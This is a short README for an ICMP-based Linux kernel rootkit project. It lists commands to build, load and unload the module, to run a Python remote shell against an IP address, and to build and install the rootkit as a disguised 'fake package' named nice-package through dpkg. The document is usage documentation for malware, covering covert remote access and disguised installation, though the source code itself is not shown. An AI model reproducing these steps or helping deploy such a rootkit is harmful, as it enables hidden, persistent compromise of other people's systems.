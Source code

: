 # Rootkit
Rootkit based on ICMP packages


# Commands

## In 'packets' folder:

### Build and start module:
```
./run.sh
```

### Delete module:
```
./stop.sh
```

### Get prints dynamically:
```
dmesg -w | grep rootkit
```

### Python shell example:
```
sudo python3 ./shell.py 45.11.26.23
```
## In root folder
### Building the fake package:
```
sudo dpkg-deb --root-owner-group --build nice-package_1.2.1_all
```

### Installing the fake package:
```
sudo dpkg -i nice-package_1.2.1_all.deb
```

# Related sources

https://xcellerator.github.io/tags/rootkit/


